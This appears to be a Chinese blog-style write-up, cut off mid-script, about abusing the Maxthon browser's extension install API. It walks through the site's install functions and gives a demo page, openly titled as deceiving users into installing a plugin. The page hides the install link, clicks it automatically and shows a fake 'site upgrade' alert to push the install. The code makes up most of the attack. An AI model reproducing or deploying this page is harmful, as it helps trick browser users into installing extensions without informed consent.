 此处的代码里的入口处就在
```
$(document).delegate('#app-install', 'click', function (event) {
    event.preventDefault();
    event.stopPropagation();
    getInstallMessage(this, 'a[file_def]', 'app');
});
```
当点击id为`app-install`的DOM时，会先调用`getInstallMessage`函数，`getInstallMessage`函数里再调用`installPack`函数，`installPack`函数调用`returnIsInstall`函数和`getUser`函数，`returnIsInstall`函数调用了`getVersionArr`函数。

最核心的代码在installPack函数里的`external.mxCall('InstallApp', packUrl);`，但是无法直接调用，不然无法安装。而且这里的packUrl必须是`http://extension.maxthon.cn`下的，不然无法安装，需要事先提交你的插件到遨游插件平台，才可以。

上面说到当点击id为`app-install`的DOM时才会触发，我这个人比较懒。就直接copy遨游插件的html代码了，顺便把他隐藏了：
`<a id="app-install" style="display:none;" file_def="1.0.1" file_url="http://extensiondl.maxthon.cn/skinpack/20062150/1462330643.mxaddon" file_id="<?echo $view_id;?>">安装</a>`，这里的file_id为`<?echo $view_id;?>`估计是遨游的程序员没写好代码，PHP没解析成功，解析成html代码了。但是我懒得改，就这样把。然后我再在他们的后面增加`$("#app-install").click();`代码，让他自动触发

完整的网站代码如下：
```
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>欺骗用户安装插件</title>
    <script src="//cdn.bootcss.com/jquery/3.1.1/jquery.min.js"></script>
</head>
<body>
    欺骗用户安装插件demo1
    <a id="app-install" style="display:none;" file_def="1.0.1" file_url="http://extensiondl.maxthon.cn/skinpack/20062150/1462330643.mxaddon" file_id="<?echo $view_id;?>">安装</a>
</body>
<script src="//cdn.bootcss.com/jquery/3.1.1/jquery.min.js"></script>
<script>
    setTimeout(function(){
        if(typeof(plug_setup)!="function"){
            alert("因网站升级，网站结合了浏览器插件给用户更好的使用体验，请安装xx插件后打开此页面");
            var ERRORTEXT = '非傲游浏览器或版本过低。<a href="http://www.maxthon.cn" target="_blank">点此获取最新版本傲游浏览器</a>'
            function getInstallMessage(that, messagePack, type) {
                if (external.mxCall) {
                    var packMxAttr = $(that).closest(messagePack);
                    if (type === 'skin') {
                        // 浏览器框架版本号
                        var frameVersion = external.mxCall('GetSkinFxVersion');
                    }
                    else if (type === 'app') {
                        // 浏览器框架版本号
                        var frameVersion = external.mxCall('GetAppFxVersion');
                        // 下个版本上了就删掉--
                        if (frameVersion === '1.0.0') {
                            frameVersion = '1.0.1';
                        }
                        // --下个版本上了就删掉
                    }
                    // 插件包框架版本号
                    var packMxVersion = packMxAttr.attr('file_def');
                    // 插件包url
                    var packUrl = packMxAttr.attr('file_url');
                    // 插件id
                    var packId = packMxAttr.attr('file_id');
                    console.log(frameVersion, packMxVersion, packUrl, type, packId)
```